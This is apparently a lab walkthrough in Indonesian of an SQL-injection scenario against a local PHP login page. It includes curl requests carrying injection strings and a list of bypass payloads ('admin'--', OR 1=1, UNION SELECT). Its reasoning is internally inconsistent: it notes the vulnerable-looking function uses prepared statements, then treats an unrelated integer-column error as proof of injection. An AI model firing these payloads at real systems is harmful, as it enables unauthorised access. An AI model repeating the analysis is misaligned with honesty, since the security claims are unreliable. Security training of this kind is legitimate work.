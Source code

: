 
## 4. Attack Scenario 3: SQL Injection

### 🎯 **Objective**
Bypass authentication atau extract data melalui SQL injection vulnerability

### 🔍 **Vulnerability Analysis**
```php
// Potential vulnerability in getUserByUsername function
function getUserByUsername($username) {
    global $pdo;
    $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
    $stmt->execute([$username]);
    return $stmt->fetch(PDO::FETCH_ASSOC);
}
```

**🚨 Discovery:**
Meskipun fungsi `getUserByUsername` menggunakan prepared statements, error handling yang buruk mengekspos database errors.

### 🛠️ **Tools Required**
- cURL atau Python requests
- SQL injection payloads
- `sql_injection_tester.py` script

### 📝 **Step-by-Step Attack**

#### **Step 1: Error Discovery**
```bash
# Test basic SQL injection payload
curl -X POST http://localhost:8081/index.php \
  -d "username=admin'--&password=anything"
```

**Response mengungkap:**
```
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1366 
Incorrect integer value: '' for column 'success' at row 1 in /var/www/html/config.php:28
```

#### **Step 2: Information Gathering**
```bash
# Database type identification
curl -X POST http://localhost:8081/index.php \
  -d "username=admin' AND (SELECT COUNT(*) FROM information_schema.tables)>0--&password=test"
```

#### **Step 3: Authentication Bypass Attempts**
```sql
-- Payload 1: Comment injection
admin'--

-- Payload 2: Boolean bypass
' OR '1'='1'--

-- Payload 3: Union injection
' UNION SELECT 1,'admin','password',1--
```
